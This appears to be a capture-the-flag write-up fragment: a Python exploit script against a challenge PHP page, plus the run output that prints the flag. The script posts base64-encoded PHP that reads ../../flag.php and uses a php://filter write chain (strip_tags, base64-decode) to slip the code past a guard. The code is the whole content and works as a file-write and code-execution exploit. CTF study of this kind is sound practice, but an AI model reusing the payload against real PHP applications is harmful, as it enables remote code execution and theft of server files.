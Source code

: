 **exploit.py**

```python
import requests
import hashlib
import base64

url = "http://rilakkuma.hackme.cc/rilakkuma.php"
remote_addr = '127.0.0.1' # my server's ip or proxy's ip
user_agent = "10"

m = hashlib.md5()
m.update(user_agent)
m.update(remote_addr)
my_md5 = m.hexdigest()
print my_md5

my_code = '<?php $file = fopen("../../flag.php", "r"); while (!feof($file)) { $value = fgets($file); print "The value of this line is " . $value . "<br>";} fclose($file); ?>'
my_code = base64.b64encode(my_code)

payload = {
            'data'      :   "\n?>\n" + my_code,
            # using wrapper
            'filename'  :   "php://filter/write=string.strip_tags|convert.base64-decode/resource=a",
            }

headers = {
            'User-Agent'    :   user_agent,
        }
r = requests.post(url, data=payload, headers=headers)
print r.text
```

Capture the flag
```bash
$ python exploit.py

The value of this line is The value of this line is // CTF{lalalalalalalalalaba}
The value of this line is
```

